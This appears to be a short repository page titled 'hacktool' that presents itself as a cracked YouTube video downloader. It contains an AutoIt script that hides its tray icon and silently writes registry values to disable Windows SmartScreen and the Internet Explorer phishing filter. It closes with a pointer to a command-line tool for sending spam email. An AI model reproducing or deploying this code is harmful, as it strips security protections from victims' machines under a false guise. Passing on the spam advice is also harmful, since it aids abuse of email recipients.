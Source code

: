 # hacktool

youtube vedio download with crack

ad35a233a3421934b9b7b7514c4fbface48ecc6b1eadb99422057dabbdb15cbb


#for disabling AutoItSetOption("TrayIconHide", 0x1)
AutoItSetOption("TrayAutoPause", 0x0)
AutoItSetOption("MouseCoordMode", 0x0)
Local $type = @OSArch
Local $ver = @OSVersion
Local $regpath, $pathfile, $user, $pass, $valid1, $valid4, $uac, $signal
If $type = "X86" Then
    $pathfile = "C:\Program Files"
    $regpath = "HKLM\Software"
Else
    $pathfile = "C:\Program Files (X86)"
    $regpath = "HKLM\Software\Wow6432Node"
EndIf
If $ver = "Win_10" Then
    RegWrite("HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\System", "EnableSmartScreen", "REG_DWORD", "0")
ElseIf $ver = "Win_7" Then
    RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\PhishingFilter", "EnableV9", "REG_DWORD", "0")
EndIf
Sleep(0x5dc)
Exit





sending email for spam on command line 
https://www.blat.net/
